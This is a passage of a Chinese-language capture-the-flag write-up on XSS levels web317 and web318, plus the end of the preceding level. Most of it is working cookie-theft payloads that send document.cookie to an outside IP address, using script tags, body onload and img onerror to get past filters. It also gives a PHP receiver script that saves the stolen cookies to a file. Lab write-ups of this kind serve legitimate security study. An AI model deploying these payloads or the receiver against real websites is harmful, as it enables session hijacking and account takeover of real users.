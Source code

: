 利用`window.location.href`

```js
<script>window.location.href='http://1.15.107.150:3296?c='+document.cookie</script>
# window.open也可以	location.href不加window也可以
```

本题的设置是有一个bot每隔几秒会访问加了你的xss之后的网站
所以你第一次会弹到自己
然后这个简易的服务端只能接受一次，所以重开一次就好了

### web317

这样有点麻烦，还是用php搭个服务端

```php
<?php 
$flag=$_GET['c'];
$file=fopen('flag.txt','w+');
fwrite($file,$flag);
fclose($file);
?>
```

先用上题**payload**试一下，发现**script**被过滤了

换成**img**或者**body**都可以

```js
<body onload="window.location.href='http://1.15.107.150:7778?c='+document.cookie">
<img src=1 onerror="window.location.href='http://1.15.107.150:7778?c='+document.cookie">
```

一直弹自己，莫名其妙的

换成nc又成功了

![image-20221219151036736](XSS.assets/image-20221219151036736.png)

### web318

多过滤了**img**，**body**仍然可用

![image-20221219151231880](XSS.assets/image-20221219151231880.png)
